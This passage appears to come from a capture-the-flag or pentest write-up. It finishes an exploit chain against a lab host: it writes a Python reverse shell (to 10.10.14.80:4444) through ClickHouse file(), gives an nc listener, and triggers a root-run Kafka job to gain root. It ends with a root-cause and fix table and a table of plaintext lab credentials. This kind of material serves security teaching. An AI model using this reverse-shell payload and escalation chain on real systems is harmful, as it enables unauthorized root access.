### 3b. Plant the root payload via ClickHouse `file()`

`default` holds `WRITE ON FILE`; `INSERT INTO FUNCTION file()` writes into `user_files_path` (`/var/lib/clickhouse/user_files/`) — exactly where the root drainer executes the formatter.

```sql
INSERT INTO FUNCTION file('aidx_quarantine.py','RawBLOB','p String')
SELECT 'import socket,os,pty\ns=socket.socket()\ns.connect(("10.10.14.80",4444))\nos.dup2(s.fileno(),0)\nos.dup2(s.fileno(),1)\nos.dup2(s.fileno(),2)\npty.spawn("/bin/bash")'
SETTINGS engine_file_truncate_on_insert=1;
```

### 3c. Trigger and catch root

```bash
# attacker:
nc -lvnp 4444
# target:
echo trigger | /opt/kafka_2.13-4.3.1/bin/kafka-console-producer.sh \
  --bootstrap-server localhost:9092 --topic aidx.flightleg.dlq.v1
```

Next timer tick → root drainer runs `python3 aidx_quarantine.py` → **reverse shell as `uid=0(root)`.**

---

## Root cause summary

| # | Weakness | Fix |
| --- | --- | --- |
| 1 | **XXE** in the ingest XML parser | Disable external entities / DTDs (secure parser config) |
| 2 | **Credential exposure** — CH creds in JAR + unauthenticated Actuator `heapdump` | Remove secrets from artifacts; lock down / disable Actuator |
| 3 | **Secret on the command line** — root drainer passes `--password` as an argv (world-readable `/proc`) | Use `CLICKHOUSE_PASSWORD` env / a client config file, never a CLI arg |
| 4 | **Over-privileged `default` + writable `user_files`** reachable from a root-executed script dir | Password-protect / disable `default`, restrict `WRITE ON FILE`, isolate `user_files` |
| 5 | **Root executes an attacker-writable script** (`aidx_quarantine.py` in a ClickHouse-writable dir) | Run the drainer as a low-priv service user; execute only root-owned, non-writable code with absolute paths |
| 6 | Unauthenticated local Kafka lets any user trigger the root job | Authenticate Kafka; restrict DLQ produce |

---

## Credentials collected

| Account | Secret | Where | Use |
| --- | --- | --- | --- |
| `svc_events` (ClickHouse) | `Yl4aCgh4y2PnU` | terminal-API JAR / heapdump / XXE | read `partner_feed`, exfil SSH creds |
| `svc-infra` (SSH) | key/creds via XXE | file read | user shell |
| `default` (ClickHouse) | `N3v3rs33nD4T4` | leaked from root drainer argv (`/proc`) | `WRITE ON FILE` → root |

---

*Chain: XXE → credential-leak → argv password disclosure → ClickHouse file-write → root cron RCE.*